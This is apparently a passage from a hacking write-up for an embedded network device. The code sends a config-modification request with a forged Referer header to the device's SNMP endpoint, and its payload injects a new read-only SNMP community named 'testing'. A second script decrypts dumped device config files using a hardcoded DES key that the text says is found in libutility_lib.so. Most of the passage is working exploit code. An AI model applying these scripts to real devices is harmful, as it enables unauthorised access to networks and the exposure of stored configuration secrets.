 ```python3
        # very specific about the format for true/false.
        # so we have to make it lowercase before sending over.
        for key, value in config.items():
            if isinstance(value, bool):
                cmd[key] = str(value).lower()
            else:
                cmd[key] = value

        r = self.r.post(
            self.SNMP_URL % self.host,
            data=cmd,
            headers={
                'Referer': 'http://%s/' % self.host,
            }
        )
        return r.json()

    def payload(self):
        """
        Our SNMPD config modification
        """
        # Lines to add to the config
        # Currently just a new read only community called testing
        lines = [
            'rocommunity testing'
        ]
	return '\n'+'\n'.join(lines)

```

### Config File

You can also dump the config file and decrypt it, as documented here[1].
Same key, but if you want to find it yourself its in `libutility_lib.so`, look at the function called `md5_getConfigKey` and you'll see the reference to the location in the binary where the keys are.

Here is a python script to do this, which is a bit cleaner than what the original writeup did:
```python3
import binascii
import sys
import zlib
from Crypto.Cipher import DES

key = binascii.unhexlify(sys.argv[3])
f = open(sys.argv[1], 'rb').read()[148:]
cipher = DES.new(key, DES.MODE_ECB)
compressed = cipher.decrypt(f)

data = zlib.decompress(compressed)
open(sys.argv[2], 'wb').write(data)
```
